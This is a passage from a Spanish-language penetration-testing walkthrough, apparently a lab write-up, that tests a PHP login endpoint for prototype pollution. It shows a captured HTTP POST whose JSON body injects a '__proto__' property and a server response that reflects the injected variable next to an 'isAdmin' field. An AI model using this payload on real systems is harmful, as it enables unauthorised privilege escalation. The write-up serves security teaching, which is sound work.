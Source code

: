 Ahora vamos a cambiarlo para intentar añadir una variable inventada y ver si se puede contaminar:

```
POST /dashboard.php HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/dashboard.php
Content-Type: application/json
Content-Length: 37
Origin: http://app.dl
Connection: keep-alive
Cookie: PHPSESSID=neokpt9n1876qjdr7j946q5kl2
Priority: u=0

{
    "username": "user",
    "password": "user123",
    "__proto__":{ 
	    "var": "test" 
	}
}
```

Ahora si enviamos esta peticion y activamos antes de enviarla en `BurpSuite` la respuesta del servidor para ver como se esta procesando:

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

Ahora lo enviaremos y veremos lo siguiente en la respuesta del servidor o lo podremos enviar al `Repeater` con `Ctrl+R` que es mucho mas recomendable:

```
HTTP/1.1 200 OK
Date: Wed, 12 Mar 2025 13:24:03 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 69
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{
    "username": "user",
    "password": "user123",
    "isAdmin":false,
    "var":"test"
```